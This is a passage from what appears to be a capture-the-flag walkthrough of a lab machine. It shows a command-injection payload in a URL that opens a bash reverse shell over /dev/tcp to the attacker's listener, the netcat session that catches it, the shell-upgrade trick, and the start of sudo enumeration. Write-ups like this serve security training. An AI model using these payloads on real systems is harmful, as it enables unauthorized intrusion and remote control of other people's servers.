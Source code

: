 

    http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`



On sending, I get a connect back at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.189 39606
    bash: cannot set terminal process group (680): Inappropriate ioctl for device
    bash: no job control in this shell
    ruby@precious:/var/www/pdfapp$



And I'll upgrade the shell using the standard `script` and `stty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    ruby@precious:/var/www/pdfapp$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    ruby@precious:/var/www/pdfapp$



## Shell as henry

### Enumeration

#### sudo

ruby requires a password to run `sudo`:



    ruby@precious:~$ sudo -l

    We trust you have received the usual lecture from the local System
    Administrator. It usually boils down to these three things:

        #1) Respect the privacy of others.
        #2) Think before you type.
        #3) With great power comes great responsibility.

    [sudo] password for ruby:



Because I got a shell as ruby via an exploit, I don't have it.
